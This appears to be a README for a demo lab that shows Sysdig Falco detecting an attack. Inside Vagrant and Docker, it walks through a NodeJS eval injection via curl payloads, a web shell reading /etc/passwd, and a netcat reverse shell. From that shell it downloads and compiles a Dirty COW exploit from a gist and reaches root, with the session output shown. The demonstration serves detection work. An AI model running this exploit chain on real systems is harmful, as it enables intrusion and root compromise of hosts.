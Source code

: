 # falco-demo
This builds an scenario for showing Sysdig Falco, exploiting incorrect input passed to eval in NodeJS and the dirtyc0w to get root access. You can use this Vagrant image https://atlas.hashicorp.com/bencer/boxes/dirtycow.

run the scenario:
```
vagrant init bencer/dirtycow
vagrant up
vagrant ssh
cd /vagrant/nodejs/bad-rest-api
docker-compose up
```

discover vulnerability:

`curl -X POST --data year="2016" http://localhost:8080/api/days-from-year/`
`curl -X POST --data year="res.write('foobar')" http://localhost:8080/api/days-from-year/`

try1 (not working, new listening ports not exposed):

`curl -X POST --data "@shell.js" http://localhost:8080/api/days-from-year/`
`curl "http://localhost:8000/?cmd=cat%20/etc/passwd"`

try2:

`nc -lvp 9999`
`curl -X POST --data "@rshell.js" http://localhost:8080/api/days-from-year/`

```
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [172.18.0.3] port 9999 [tcp/*] accepted (family 2, sport 43398)
id
uid=999(node) gid=999(node) groups=999(node)
pwd
/home/node
curl https://gist.githubusercontent.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43/raw/71db45f5b97c8e4ed00f1193e578a77f90dabbdd/cowroot.c > cowroot.c
gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:107:17: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
         lseek(f,map,SEEK_SET);
                 ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
./cowroot
/bin/sh: 1: cannot create /proc/sys/vm/dirty_writeback_centisecs: Read-only file system
id
uid=0(root) gid=999(node) groups=999(node)
```

note: for increased stability run this in the VM before running the exploit, Docker mounts /proc/sys in ro so the exploit tends to freeze the VM.
```
sudo -s
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```


